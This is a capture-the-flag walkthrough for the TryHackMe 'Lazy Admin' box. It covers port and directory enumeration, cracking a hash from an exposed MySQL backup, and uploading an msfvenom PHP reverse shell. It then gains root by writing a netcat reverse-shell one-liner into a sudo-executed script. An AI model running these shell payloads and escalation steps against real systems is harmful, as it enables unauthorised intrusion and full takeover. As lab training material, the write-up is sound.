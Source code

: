 # Lazy Admin

## Reconnaissance
Let's start the enumeration with scanning the ports, which we can do with nmap. This can be done with the command nmap -A -T4 <ip>.

![nmap](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/nmap.png)

As we can see there are two ports open, port 22 for ssh and port 80 for http. The SSH version running is OpenSSH 7.2p2 and the server is an Apache server running on ubuntu. For further enumeration we can use ffuf with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/FUZZ"```.

![fuzzing1](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/fuzzing.png)

```/content``` seems interesting, so let's check it out. Hmm, that did not give us much.

![content](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/content.png)

Let's try fuzzing even deeper, we can do this with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/content/FUZZ"```

![fuzzing2](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/fuzzing2.png)

```/as``` seems interesting, so lets check it out, oh an admin panel. We could try to brute-force it, but let's continue searching to see if we can find anything else that might be interesting.

![login](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/login.png)

We can find an backup of an mysql database at ```<ip>/content/inc/mysql_backup```, lets try downloading it to see what it contains.

![sql](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/sql.png)

Here we can find both a username and an hashed password, maybe if we can crack the password we can use it to login to the admin panel.

![sql_pass](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/sql_pass.png)

I used ```https://crackstation.net/``` to crack the password.

![pass_cracked](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/pass_cracked.png)

Now we can log in to the admin panel. 

![admin](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/admin_panel.png)

## Getting a shell
Now that we have gotten into the admin panel, it's time to look for a way to get a shell. After looking around on the admin panel for a litte while I found an upload button, lets see if we can upload a reverse shell through the upload form. 

![upload](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/upload.png)

We can create an reverse shell with the command ```msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php```. Now we can try to upload it, it worked! Now we can go to ```<ip>/content/attachment/shell.php5``` and run the file while we try to catch the reverse shell. We can catch the reverse shell with metasploit (msfconsole). I used the payload php/meterpreter_reverse_tcp. Set the options ```LHOST <your ip>``` and ```LPORT <choosen port>```.

![msf](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/msf.png)

That worked, we now have gotten into the computer.

![user](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/user.png)

## Privilege Escalation
Now that we have gotten into the computer it's time for privilege escalation, so let's do some enumeration. ```sudo -l``` shows us that we can use ```/user/bin/perl /home/itguy/backup.pl``` as root.

![priv_esc](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc.png)

Let's check out the ```/home/itguy/backup.pl``` file.

![priv_esc2](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc2.png)

Ok, now lets check out the ```/etc/copy.sh``` file.

![priv_esc3](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc3.png)

It seems like most of the job is done for us. Let's change the ip to our ip. We can do this with ```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> 5554 >/tmp/f" > /etc/copy.sh```

We can now try to catch it with netcat on our computer with ```nc -nvlp 5554``` and then run ``backup.pl`` with ```sudo /usr/bin/perl /home/itguy/backup.pl```

![root](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/root.png)

That worked, we have now root access on the machine.
